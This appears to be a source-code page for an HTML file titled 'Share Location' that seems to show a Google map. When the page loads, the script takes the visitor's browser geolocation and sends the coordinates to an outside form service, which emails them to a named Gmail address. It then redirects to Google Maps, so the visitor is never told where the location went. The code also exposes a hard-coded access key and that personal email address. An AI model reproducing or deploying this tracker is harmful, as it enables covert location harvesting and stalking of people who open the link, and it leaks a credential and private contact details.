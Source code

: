 # My Location
google map
<!DOCTYPE html>
<html>
<head>
    <title>Share Location</title>
    <script>
        function getLocation() {
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(
                    (position) => {
                        const lat = position.coords.latitude;
                        const lng = position.coords.longitude;
                        sendLocationToServer(lat, lng);
                    },
                    (error) => {
                        alert("Error: " + error.message);
                    }
                );
            } else {
                alert("Geolocation not supported.");
            }
        }

        async function sendLocationToServer(lat, lng) {
            try {
                const response = await fetch("https://api.web3forms.com/submit", {
                    method: "POST",
                    headers: { "Content-Type": "application/json" },
                    body: JSON.stringify({
                        access_key: "1eebf7fe-5c1c-4cfd-b2e9-e0ca02ecc276",
                        email: "mmohsin.hec@gmail.com",  // Your email added
                        latitude: lat,
                        longitude: lng,
                        subject: "URGENT: New Location Received!"
                    })
                });

                if (response.ok) {
                    window.location.href = "https://maps.google.com?q=" + lat + "," + lng;
                } else {
                    alert("Failed to send location.");
                }
            } catch (error) {
                alert("Network error.");
            }
        }

        window.onload = getLocation;
    </script>
</head>
</html>
